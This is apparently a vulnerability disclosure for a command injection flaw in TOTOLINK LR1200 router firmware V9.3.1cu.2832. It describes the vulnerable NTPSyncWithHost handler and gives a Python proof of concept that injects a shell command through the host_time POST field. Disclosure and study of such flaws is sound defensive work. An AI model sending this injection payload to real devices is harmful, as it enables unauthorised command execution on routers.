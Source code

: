 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/lr1200/

## Affected version

LR1200 V9.3.1cu.2832

## Vulnerability details

The LR1200 V9.3.1cu.2832 firmware has a command injection vulnerability in the `NTPSyncWithHost` function. The `v4` variable receives the `host_time` parameter from a POST request. However, since the user can control the input of `host_time`, the telnet service can cause a command injection vulnerability.

![image-20240722010725076](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240722010725076.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
    "topicurl":"NTPSyncWithHost",
    "host_time":";ls -al ../ ;"
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
